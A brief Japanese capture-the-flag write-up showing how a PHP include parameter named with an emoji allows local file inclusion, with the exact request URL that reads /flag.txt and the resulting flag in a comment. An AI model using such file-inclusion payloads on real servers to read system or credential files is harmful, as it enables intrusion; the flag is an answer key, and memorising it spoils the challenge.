 # Writeup

[http://include.sf.ctf.so/](http://include.sf.ctf.so/) にアクセスすると、以下のようなメッセージが表示される。

![](img/2021-06-20-12-15-28.png)

GETパラメータに 🤯 とあるので、`http://include.sf.ctf.so/?%F0%9F%A4%AF=hoge`のようにして`@include`に任意の文字列を挿入できる。

Local File Inclusion(LFI) によって`/flag.txt`を読む。

* http://include.sf.ctf.so/?%F0%9F%A4%AF=/flag.txt

にアクセスすると、フラグが表示された。

<!-- we{695ed01b-3d31-46d7-a4a3-06b744d20f4b@1nc1ud3_/etc/passwd_yyds!} -->